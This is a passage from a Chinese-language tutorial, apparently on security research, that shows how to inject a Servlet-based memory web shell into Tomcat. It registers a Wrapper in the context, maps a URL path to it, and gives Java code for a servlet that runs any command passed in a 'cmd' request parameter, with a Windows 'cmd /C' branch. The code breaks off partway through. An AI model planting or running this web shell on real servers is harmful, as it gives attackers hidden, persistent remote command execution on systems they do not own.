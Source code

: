 使用context#createWrapper新建一个wrapper对象,设置启动优先级,servlet的name,设置了servlet的Class

![image-20220420121557998](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220420121557998.png)

并且通过addChild将其添加到context当中,

![image-20220420121642666](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220420121642666.png)

然后循环遍历servletmapping添加路径和name的对应关系

![image-20220420122055271](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220420122055271.png)



其实大体流程和之前的filter差不多

还变得简单了,原因呢就是wrapper和servlet是一一对应的关系

总共分为以下几步

1.获取到context并创建一个Wrapper对象

2.设置设置启动优先级,servlet的name,设置servlet对应的Class

3.将wrapper添加到context的children中

4.将路径和servlet做好映射

```java
Servlet servlet = new Servlet(){
        @Override
        public void init(ServletConfig config) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }

        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = request.getParameter("cmd");
            StringBuffer result = new StringBuffer();
            //加一个系统的判断
            String os = System.getProperty("os.name");
            boolean isWin = false;
            BufferedReader bufferedReader;
            if (os != null && os.toLowerCase().startsWith("windows")) {
                isWin = true;
            }

            try {
                if (isWin == false) {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
                } else {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cmd /C " + cmd).getInputStream()));
                }

                String len;
                while ((len = bufferedReader.readLine()) != null) {
                    result.append(len + "\n");
                }

            } catch (Exception e) {
                result.append(e.getMessage());

```